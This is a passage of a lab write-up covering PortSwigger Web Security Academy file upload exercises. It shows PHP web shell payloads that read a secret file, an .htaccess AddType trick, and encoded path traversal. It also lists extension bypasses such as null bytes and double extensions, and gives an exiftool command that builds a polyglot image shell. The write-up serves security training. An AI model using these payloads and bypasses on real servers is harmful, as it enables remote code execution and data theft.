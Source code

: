 ```yaml
---
description: >-
  https://portswigger.net/web-security/learning-paths/file-upload-vulnerabilities
---
```


# 📑 File Upload vulnerabilities

File upload vulnerabilities are when a web server allows users to upload files to its filesystem without sufficiently validating things like their name, type, contents, or size. Failing to properly enforce restrictions on these could mean that even a basic image upload function can be used to upload arbitrary and potentially dangerous files instead. This could even include server-side script files that enable remote code execution.

We already did some File uploads in the&#x20;

{% content-ref url="server-side-vulnerabilities.md" %}
[server-side-vulnerabilities.md](server-side-vulnerabilities.md)
{% endcontent-ref %}

### Lab: Web shell upload via path traversal

We start by uploading our php payload and capturing the request:

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We saw that we were able to upload the PHP file, but it was as a txt file, the folder must filter out the PHP files, so let's save the PHP file in another directory. If we do a filename ../webshell.php it cuts the ../ but if we encode it to ..%2fwebshell.php it seems to work:

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

so we see when encoding it saves the shell in another directory ->

so i took te req and forwarded it, on the page it showed:

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and now we go back on repeater, and we get the file:

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Lab: Web shell upload via extension blacklist bypass

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

This payload will enable us to read the content of the secret file, now let's upload our picture and the request ->

<figure><img src="../../.gitbook/assets/image (845).png" alt=""><figcaption></figcaption></figure>

and with the following request we are able to GET our image:

```
GET /files/avatars/image.png
```

if we try to run a php payload ->

<figure><img src="../../.gitbook/assets/image (846).png" alt=""><figcaption></figcaption></figure>

and if we look at the pretty output:

<figure><img src="../../.gitbook/assets/image (847).png" alt=""><figcaption></figcaption></figure>

We can see on this website that .htaccess files are not very secure:

{% embed url="https://httpd.apache.org/docs/2.4/howto/htaccess.html" %}

So we are going to rename the file .htaccess and change the content:

<figure><img src="../../.gitbook/assets/image (848).png" alt=""><figcaption></figcaption></figure>

```
AddType application/x-httpd-php .shell
```

* `AddType`: This is an Apache directive used to specify how files with certain extensions should be handled by the server.
* `application/x-httpd-php`: This indicates the MIME type of the files. In this case, it specifies that the files are PHP scripts.
* `.shell`: This is the file extension that the directive applies to. In this case, it's `.shell`, meaning any file with this extension will be treated as a PHP script.

And now we take the query back in time and make our malicious file:

<figure><img src="../../.gitbook/assets/image (849).png" alt=""><figcaption></figcaption></figure>

#### Other techniques to bypass file extension blacklist:

* Provide multiple extensions. Depending on the algorithm used to parse the filename, the following file may be interpreted as either a PHP file or JPG image: `exploit.php.jpg`
* Add trailing characters. Some components will strip or ignore trailing whitespaces, dots, and suchlike: `exploit.php.`
* Try using the URL encoding (or double URL encoding) for dots, forward slashes, and backward slashes. If the value isn't decoded when validating the file extension, but is later decoded server-side, this can also allow you to upload malicious files that would otherwise be blocked: `exploit%2Ephp`
* Add semicolons or URL-encoded null byte characters before the file extension. If validation is written in a high-level language like PHP or Java, but the server processes the file using lower-level functions in C/C++, for example, this can cause discrepancies in what is treated as the end of the filename: `exploit.asp;.jpg` or `exploit.asp%00.jpg`
* Try using multibyte unicode characters, which may be converted to null bytes and dots after unicode conversion or normalization. Sequences like `xC0 x2E`, `xC4 xAE` or `xC0 xAE` may be translated to `x2E` if the filename parsed as a UTF-8 string, but then converted to ASCII characters before being used in a path.
*   you can position the prohibited string in such a way that removing it still leaves behind a valid file extension. For example, consider what happens if you strip `.php` from the following filename:

    `exploit.p.phphp`

### Lab: Web shell upload via obfuscated file extension

So for the chal we can easily guess it's one of those, and indeed it was:

<figure><img src="../../.gitbook/assets/image (850).png" alt=""><figcaption><p>FP.php%00.jpg</p></figcaption></figure>

And we can now make a GET to the file:

<figure><img src="../../.gitbook/assets/image (851).png" alt=""><figcaption></figcaption></figure>

#### Flawed validation of the file's contents

Instead of implicitly trusting the `Content-Type` specified in a request, more secure servers try to verify that the contents of the file actually match what is expected.

In the case of an image upload function, the server might try to verify certain intrinsic properties of an image, such as its dimensions. If you try uploading a PHP script, for example, it won't have any dimensions at all. Therefore, the server can deduce that it can't possibly be an image, and reject the upload accordingly.

Similarly, certain file types may always contain a specific sequence of bytes in their header or footer. These can be used like a fingerprint or signature to determine whether the contents match the expected type. For example, JPEG files always begin with the bytes `FF D8 FF`.

This is a much more robust way of validating the file type, but even this isn't foolproof. Using special tools, such as ExifTool, it can be trivial to create a polyglot JPEG file containing malicious code within its metadata.

{% embed url="https://exiftool.org/" %}

### Lab: Remote code execution via polyglot web shell upload

We need to create a malicious php file with a JPG header

```
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
```

* `exiftool`: This is the command-line utility we're using.
* `-Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>"`: This part sets the comment metadata of the image file to a PHP code snippet. It appears to be intended to embed PHP code into the metadata of the image. The PHP code retrieves the contents of a file located at `/home/carlos/secret` and appends 'START ' before the content and ' END' after the content.
* `<YOUR-INPUT-IMAGE>.jpg`: This is where you would specify the input image file. Replace `<YOUR-INPUT-IMAGE>.jpg` with the path to your actual image file. The `.jpg` extension suggests that the input image file is in JPEG format.
* `-o polyglot.php`: This part specifies the output file name. It instructs ExifTool to save the modified image with the PHP code embedded in its metadata into a file named `polyglot.php`.

We upload the file and if we&#x20;

`GET /files/avatars/polyglot.php`

We can have the password

#### Exploiting file upload race conditions

Modern frameworks are more battle-hardened against these kinds of attacks. They generally don't upload files directly to their intended destination on the filesystem. Instead, they take precautions like uploading to a temporary, sandboxed directory first and randomizing the name to avoid overwriting existing files. They then perform validation on this temporary file and only transfer it to its destination once it is deemed safe to do so.

